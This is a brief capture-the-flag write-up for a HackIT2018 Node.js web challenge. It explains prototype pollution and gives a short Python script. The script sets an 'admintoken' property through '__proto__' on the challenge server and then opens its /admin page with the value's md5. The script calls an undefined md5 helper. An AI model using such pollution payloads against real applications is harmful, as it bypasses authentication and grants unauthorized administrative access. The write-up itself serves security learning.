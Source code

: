 This challenge was provided with source code access, written in nodejs.
The bug is related to prototype pollution in the [line](https://github.com/DefConUA/HackIT2018/blob/master/web/Republic_of_Gayming/app.js#L64)
The general idea behind prototype pollution is when you an expression like : 
obj[a][b] = value

And user can control a,b and value
if the users sets "a" to "__proto__" and "b" to any property , he can injects attributes in all existing objects with the value "value"
for more details check [this](https://github.com/HoLyVieR/prototype-pollution-nsec18)

the script I used is pretty simple, pollute array proto with attribute admintoken and an arbitrary value, then query /admin with the md5 of that value,
Note: At some points lot of teams were changing the __proto__ at the same time so it became like a trivial race condition, but it can be won easy 
```python
import requests


r = requests.post('http://185.168.131.1:3000/api',json={'row':'__proto__','col':'admintoken','data':'qqq'})
r = requests.get('http://185.168.131.1:3000/admin?querytoken=' + md5sumhex('qqq'))
print r.text

```
